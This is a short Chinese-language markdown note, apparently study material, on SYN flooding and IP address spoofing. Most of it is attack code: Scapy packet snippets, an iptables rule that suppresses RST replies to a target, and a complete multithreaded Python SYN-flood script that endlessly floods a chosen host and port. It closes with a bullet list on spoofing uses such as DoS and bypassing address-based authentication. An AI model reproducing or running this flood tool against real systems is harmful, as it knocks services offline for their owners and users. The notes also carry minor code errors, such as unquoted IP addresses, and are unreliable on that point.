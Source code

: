 
# Syn-flood和IP地址欺骗

* Syn-flood

* IP地址欺骗

## Syn-flood

* Scapy
```python
i = IP()
i.dst = 1.1.1.1
i.display()
t = TCP()
sr1(i/t, verbose = 1, timeout=3)
sr1(IP(dst=1.1.1.1)/TCP())
```
**linux本机默认会回应返回的数据包，关闭指令：** 
```shell 
iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 1.1.1.1 -j DROP
```
* 实例1
```python
#!/usr/bin/python
# _*_ coding:utf8 _*_
 
from scapy.all import *
from time import sleep
import thread
import random
import logging
logging.getLogger('scapy.runtime').setLevel(logging.ERROR)
 
if len(sys.argv) !=4:
    print("EXAMPLE:./syn_flood.py 1.1.1.1 80 20")
    sys.exit()
 
target =str(sys.argv[1])
port = int(sys.argv[2])
threads = int(sys.argv[3])
 
print("SYN flood attacking........, Press Ctrl + c STOP attack")
def synflood(target,port):
    while 0 == 0:
        x = random.randint(0,65535)
        send(IP(dst=target)/TCP(dport=port,sport=x),verbose=0)
 
for x in range(0,threads):
    thread.start_new_thread(synflood,(target,port))
while 0 == 0:
    sleep(1)
```

## IP地址欺骗
> * 经常用于DoS攻击  
> * 根据IP头地址寻址  
>   - 伪造IP源地址
> * 边界路由器过滤
>   - 入站、出站
> * 受害者可能是源、目的地址
> * 绕过基于地址的验证
> * 压力测试模拟多用户
> * 上层协议(TCP序列号)


